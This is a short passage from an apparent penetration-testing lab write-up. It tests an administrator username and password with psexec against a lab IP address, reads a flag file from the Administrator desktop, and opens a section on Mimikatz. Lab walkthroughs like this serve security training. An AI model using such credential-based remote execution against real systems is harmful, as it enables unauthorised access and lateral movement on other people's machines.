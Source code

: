 ![](assets/image-20230317220002907.png)

- Test the `administrator`:`Admin@123root` credentials with the `psexec` tool

```
psexec.py administrator@10.4.19.9
```

![](assets/image-20230317220734394.png)

```bash
cd C:\Users\Administrator\Desktop
type flag.txt
```

<details><summary>Reveal Flag: 🚩</summary></details>

------

## Lab 2 - Mimikatz
